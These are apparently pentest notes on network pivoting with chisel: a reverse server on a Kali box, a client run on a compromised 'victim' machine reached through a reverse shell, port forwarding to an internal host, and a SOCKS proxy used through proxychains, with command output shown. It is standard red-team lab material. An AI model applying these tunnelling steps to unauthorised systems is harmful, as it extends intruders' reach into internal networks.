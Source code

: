 on our kali box we use server mode and goes on listening

machine2 will connect to our chisel server using chisel binary and then will forward to other machines

download chisel linux binary for our kali and corresponding chisel binary for victim machine

```
https://github.com/jpillora/chisel/releases
```

transfer it to machine2 which we have reverse shell access

on our kali linux,run as reverse
reverse option allow incoming client to open a port on our kali and connect to destination specified

```
chisel server -p 5555 --reverse
```

on our reverseshell machine1
```
./chisel32 client 192.168.2.129:5555 R:1234:192.168.3.129:80	 
```

the above command connects to our kali and then 
R stands for remote host or our kali box
and whatever data comes from our box 1234 port that will be redirected to 192.168.3.129 port 80 
so go to browser and open 127.0.0.1:1234
you will see webpage of 192.168.3.129

```
$ ./chisel server -p 5555 --reverse                         
2021/05/30 23:06:57 server: Reverse tunnelling enabled
2021/05/30 23:06:57 server: Fingerprint ZHyDUORbA0i2GQhnaHza0PP3AX13BcDkehSnhlIM4is=
2021/05/30 23:06:57 server: Listening on http://0.0.0.0:5555
2021/05/30 23:07:42 server: session#1: tun: proxy#R:1234=>192.168.3.129:80: Listening
```

you can see connection 

kali:1234 -> machine1 -> machine2:80

now this is like one:one port 
we can make machine1 act as socks 

on our kali box , like always
```
chisel server -p 5555 --reverse
```

on our machine1 
```
./chisel32 client 192.168.2.129:5555 R:1234:socks
```

now machine1 acts as socks
we need to edit proxychains4.conf
add this line
```
socks5 	127.0.0.1  1234
```
